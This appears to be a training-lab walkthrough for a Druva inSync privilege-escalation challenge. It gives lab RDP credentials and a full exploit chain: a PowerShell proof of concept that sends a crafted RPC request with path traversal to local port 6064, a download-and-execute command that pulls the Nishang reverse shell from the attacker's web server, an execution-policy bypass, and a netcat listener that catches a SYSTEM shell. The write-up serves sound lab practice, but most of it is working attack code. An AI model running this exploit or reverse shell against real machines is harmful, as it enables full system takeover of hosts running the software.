 ## Step-by-Step Guide to Exploit Druva inSync Vulnerability
### 📍 1. RDP into the Target Machine
Use the provided credentials to connect:

RDP to 10.129.253.88
Username: htb-student
Password: HTB_@cademy_stdnt!
```bash
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.253.88
```
### 📍 2. Verify Druva inSync is Installed and Running
Open PowerShell and run:
```bash
get-service | ? {$_.DisplayName -like 'Druva*'}
Ensure Druva inSync Client Service is running.
```
Check port 6064 is open:
```bash
netstat -ano | findstr 6064
```
### 📍 3. Prepare the Exploit on Your Kali/Parrot Attack Box
a) Create Reverse Shell Script
Download the Invoke-PowerShellTcp.ps1 script:
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
Edit it and append this at the end:
```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 (my local ip) -Port 9443
```
Make sure to replace 10.10.14.3 with your tun0 IP.

b) Start a Python Web Server
```bash
python3 -m http.server 8080
```
### 📍 4. Modify and Execute PoC PowerShell Script on Victim
a) PoC Script:
On the victim machine (RDP session), run:
```bash
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.31:8080/Invoke-PowerShellTcp.ps1')"

$ErrorActionPreference = "Stop"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd")
$length = [System.BitConverter]::GetBytes($command.Length)

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
⚠️ You may need to run Set-ExecutionPolicy Bypass -Scope Process before running this.

### 📍 5. Start Netcat Listener on Your Attack Box
```bash
nc -lvnp 9443
```
Wait for the reverse shell. Once it connects, you should be NT AUTHORITY\SYSTEM.

![image](https://github.com/user-attachments/assets/ca899610-9248-4250-836f-abe5635ec316)


### 📍 6. Grab the Flag
In the SYSTEM shell:

powershell
Copy
Edit
cd "C:\Users\Administrator\Desktop\VulServices"
type flag.txt
✅ Submit the Flag
Once you copy the contents of flag.txt, paste it into the challenge submission box.
